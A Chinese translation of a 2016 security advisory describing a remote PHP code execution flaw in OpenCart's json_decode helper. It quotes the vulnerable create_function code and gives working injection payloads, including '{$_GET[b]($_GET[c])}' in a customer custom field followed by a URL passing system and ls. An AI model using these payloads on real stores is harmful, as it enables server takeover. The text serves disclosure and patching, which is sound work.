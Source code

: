 > 原文链接: https://www.anquanke.com//post/id/83757 


# OpenCart json_decode函数中存在远程PHP代码执行漏洞


                                阅读量   
                                **174101**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：360安全播报
                                <br>原文地址：[http://seclists.org/bugtraq/2016/Apr/61](http://seclists.org/bugtraq/2016/Apr/61)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t01e911cd52325432e5.jpg)](https://p0.ssl.qhimg.com/t01e911cd52325432e5.jpg)

最近,安全研究人员Naser Farhadi(Twitter: @naserfarhadi)发现OpenCart json_decode函数中存在远程PHP代码执行漏洞,涉及到的版本有2.1.0.2 到 2.2.0.0 (最新版本)

漏洞存在于 /upload/system/helper/json.php中,其中有这段代码



```
# /upload/system/helper/json.php
$match = '/".*?(?&lt;!\\)"/';
$string = preg_replace($match, '', $json);
$string = preg_replace('/[,:`{``}`[]0-9.-+Eaeflnr-u nrt]/', '', $string);
...
$function = @create_function('', "return `{`$json`}`;"); /**** 万恶之源 ****/
$return = ($function) ? $function() : null;
...
return $return;
```

其中通过json进行了函数的创建,而json_decode函数可被利用

这里是几个简单的测试例子

var_dump(json_decode('`{`"ok":"1"."2"."3"`}`'));

 

[![](https://p1.ssl.qhimg.com/t01af7d32805ebbcb2b.png)](https://p1.ssl.qhimg.com/t01af7d32805ebbcb2b.png)

var_dump(json_decode('`{`"ok":"$_SERVER[HTTP_USER_AGENT]"`}`'));

[![](https://p2.ssl.qhimg.com/t01efd34243fc59bbcc.png)](https://p2.ssl.qhimg.com/t01efd34243fc59bbcc.png)

 var_dump(json_decode('`{`"ok":"`{`$_GET[b]($_GET[c])`}`"`}`'));

 

[![](https://p4.ssl.qhimg.com/t019da65c44caeb5ef8.png)](https://p4.ssl.qhimg.com/t019da65c44caeb5ef8.png)

[![](https://p5.ssl.qhimg.com/t01bbed4b7a65d98cbc.png)](https://p5.ssl.qhimg.com/t01bbed4b7a65d98cbc.png)

[![](https://p0.ssl.qhimg.com/t0193c0c17c75b284f0.png)](https://p0.ssl.qhimg.com/t0193c0c17c75b284f0.png)

 在真实场景中,可以通过/index.php?route=account/edit进行利用

例如将$_SERVER[HTTP_USER_AGENT]作为姓名填写进去,保存(需要重复两次)

[![](https://p4.ssl.qhimg.com/t017744ee18bb5403df.png)](https://p4.ssl.qhimg.com/t017744ee18bb5403df.png)

之后当管理员访问管理面板时,他会在最近活动中本应显示你的姓名的地方看到他自己的UserAgent

[![](https://p5.ssl.qhimg.com/t01882ed02c1581cb27.png)](https://p5.ssl.qhimg.com/t01882ed02c1581cb27.png)

另一个例子是在account/edit 或者 account/register 中的 custom_field ,在这里进行利用可能是最合适的

如果管理员在/admin/index.php?route=customer/custom_field中添加了一个自定义的区域用于电话号码之类的额外信息

[![](https://p2.ssl.qhimg.com/t01e8a91c5c48a7f625.png)](https://p2.ssl.qhimg.com/t01e8a91c5c48a7f625.png)

你就可以直接注入你的代码在这个custom_field中

例如将`{`$_GET[b]($_GET[c])`}`填写到这个custom_field中,保存

[![](https://p4.ssl.qhimg.com/t01ca2957b096f1eb77.png)](https://p4.ssl.qhimg.com/t01ca2957b096f1eb77.png)

然后访问

[http://host/shop_directory/index.php?route=account/edit&amp;b=system&amp;c=ls](http://host/shop_directory/index.php?route=account/edit&amp;b=system&amp;c=ls)

你会看到代码被正确执行了

 

[![](https://p1.ssl.qhimg.com/t011137a1d5d613bbe4.png)](https://p1.ssl.qhimg.com/t011137a1d5d613bbe4.png)

 

[![](https://p0.ssl.qhimg.com/t01d435afb7fe4e6673.png)](https://p0.ssl.qhimg.com/t01d435afb7fe4e6673.png)

需要注意的是,这种利用方式只会在 PHP JSON扩展没有安装的情况下有效
